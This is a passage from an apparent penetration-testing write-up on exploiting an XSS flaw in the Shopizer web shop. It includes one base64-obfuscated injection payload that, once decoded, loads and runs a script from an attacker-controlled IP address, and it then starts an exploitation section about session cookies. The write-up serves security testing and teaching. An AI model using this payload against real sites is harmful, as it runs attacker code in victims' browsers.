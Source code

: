 As we can see via the browser's `Console` tab, the cause of the `Error` message might be associated with malformed syntax (Figure 19).&#x20;

<figure><img src="../../../../.gitbook/assets/web_xss_shopizer_8.png" alt=""><figcaption><p>Figure 19: Enumerating the root cause of the <code>Error</code> message.</p></figcaption></figure>

If we wrap our payload with the `btoa()` method in order to Base64 the whole payload, the message gets away (Figure 20).

{% code overflow="wrap" %}
```javascript
'+btoa(eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1Nob3BpemVyLmpzJyk="))+'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_shopizer_9.png" alt=""><figcaption><p>Figure 20: Getting rid of the <code>Error</code> message.</p></figcaption></figure>

### Exploitation

We have successfully enumerated an XSS vulnerability and constructed an executable payload. Unfortunately, when logging into the application, the `JSESSIOND` cookie sets the [`HttpOnly`](../../common-findings/cookie-flags.md) attribute to `true` (Figure 21). As a result, we won't be able to access this with JavaScript.

<figure><img src="../../../../.gitbook/assets/web_xss_shopizer_10.png" alt=""><figcaption><p>Figure 21: Inspecting the application's cookies.</p></figcaption></figure>
